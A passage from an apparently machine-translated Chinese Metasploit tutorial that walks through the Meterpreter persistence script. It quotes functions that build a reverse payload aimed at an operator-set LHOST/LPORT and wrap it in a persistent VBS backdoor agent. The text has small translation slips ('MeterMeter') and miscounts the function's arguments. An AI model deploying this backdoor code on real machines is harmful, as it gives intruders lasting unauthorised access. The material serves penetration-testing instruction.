 脚本的下一部分包括随脚本一起传递所需的不同参数（标志）。具有 `true`值的参数是强制性标志，其值必须由渗透测试仪通过。具有 `false`值的参数是可选的。

```
# Usage Message Function
#-------------------------------------------------------------------------------
def usage
print_line "Meterpreter Script for creating a persistent backdoor on a target host."
print_line(@exec_opts.usage)
raise Rex::Script::Completed
end
# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
print_error("#{meter} version of Meterpreter is not supported with this Script!")
raise Rex::Script::Completed
end 
```

脚本的下一部分包括函数声明。前两个函数通常在所有 MeterMeter 脚本中都可用。usage 函数用于显示脚本的介绍性消息。它包含关于脚本使用的简短描述。 `wrong_meter_version()`用于验证脚本是否支持 MeterMeter 版本。一些脚本不支持旧版本的 MeterMeter，因此验证可能会有所帮助。

```
# Function for Creating the Payload
#-------------------------------------------------------------------------------
def create_payload(payload_type,lhost,lport)
print_status("Creating Payload=#{payload_type} LHOST=#{lhost} LPORT=#{lport}")
payload = payload_type
pay = client.framework.payloads.create(payload)
pay.datastore['LHOST'] = lhost
pay.datastore['LPORT'] = lport
return pay.generate
end 
```

下一个函数是关于创建有效负载的。如果要创建有效负载（代码重用的能力），可以在脚本中直接使用此函数。函数 `create_payload()`占用两个值，即 `payload_type`和 `lport`。如果您还记得变量声明部分，那么这两个变量已经用一些默认值初始化。

`pay = client.framework.payloads.create(payload)`调用允许我们从 Metasploit 框架创建有效负载。

在这个片段中需要注意的一点是 `pay.datastore['LHOST'] = lhost`和 `pay.datastore['LPORT'] = lport`。数据存储只是一组值的散列，模块或框架本身可以使用这些值来引用程序员或用户控制的值。

```
# Function for Creating persistent script
#-------------------------------------------------------------------------------
def create_script(delay,altexe,raw)
if altexe
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay, :template => altexe})
else
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay})
end
print_status("Persistent agent script is #{vbs.length} bytes long")
return vbs
end 
```
